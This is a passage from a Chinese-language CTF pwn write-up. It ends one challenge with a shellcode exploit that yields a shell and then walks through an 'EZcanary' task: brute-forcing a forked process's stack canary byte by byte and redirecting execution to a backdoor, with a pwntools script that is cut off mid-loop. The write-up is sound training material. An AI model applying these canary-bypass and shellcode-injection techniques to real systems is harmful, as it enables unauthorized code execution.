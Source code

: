 ```python
    xor cx, 0x4040
    push rcx ; //异或出syscall的机械码
    jmp rsp
'''

p.sendafter("Input your Code :", asm(shellcode))

p.interactive()
```
运行后获取sh
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241031084439.png)

# Week 3
## PWN
### EZcanary
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241013112732.png)
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241013112758.png)
保护除了PIE全开，初步看有循环，进入IDA查看
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241013113028.png)
![](https://raw.githubusercontent.com/LH864042219/PWN-Obsidian/refs/heads/main/picture/Pasted%20image%2020241013113135.png)
有后门函数直接使用，把程序的返回地址改为后门函数的地址即可获取shell。现在需要找到方法获取`canary`。
可以发现有`fork`函数创建线程，`fork`函数创建的线程中`canary`的值是不会改变的，那么只需要利用这一特性不停爆破`canary`的值，返回`stack smashing detected` 说明不对，没有返回则说明这一位正确，可爆破出`canary`的值
exp:
```python
from pwn import *

local = False
context.log_level = 'debug'
if local:
    p = process('./ezcanary')
    # pwnlib.gdb.attach(p, 'b *main')
else:
    p = remote('8.147.132.32', 30758)
elf = ELF('./ezcanary')

backdoor = 0x401236

canary = b'\x00'
for i in range(7):
    pause()
    for b in range(256):
        payload = b'a' * (0x50 + 8)+ canary + b.to_bytes(1, 'little')
        print("-------------------------------------\n", payload)
        p.recvuntil(b'\n')
        # 这里复制过来的缩进在markdowm里看着有问题，下面两个recvuntil和print是同级的
        p.recvuntil(b'\xe6\x83\xb3\xe5\xbf\x85\xe6\x88\x91\xe7\x9a\x84\xe7\xa8\x8b\xe5\xba\x8f\xe4\xb8\x80\xe5\xae\x9a\xe5\xbe\x88\xe5\xae\x89\xe5\x85\xa8\xe5\x90\xa7\xce\xb5=\xce\xb5=\xce\xb5=(~\xef\xbf\xa3\xe2\x96\xbd\xef\xbf\xa3)~\n')
        p.recvuntil(b'\xe4\xbd\xa0\xe8\xa7\x89\xe5\xbe\x97\xe5\x91\xa2\xef\xbc\x9f\n')
        p.send(payload)
        time.sleep(0.1)
        a = p.recv()
        if b"stack smashing detected" not in a:
            log.info(f'a: {a}')
            canary += b.to_bytes(1, 'little')
            log.success(f'canary: {canary}')
```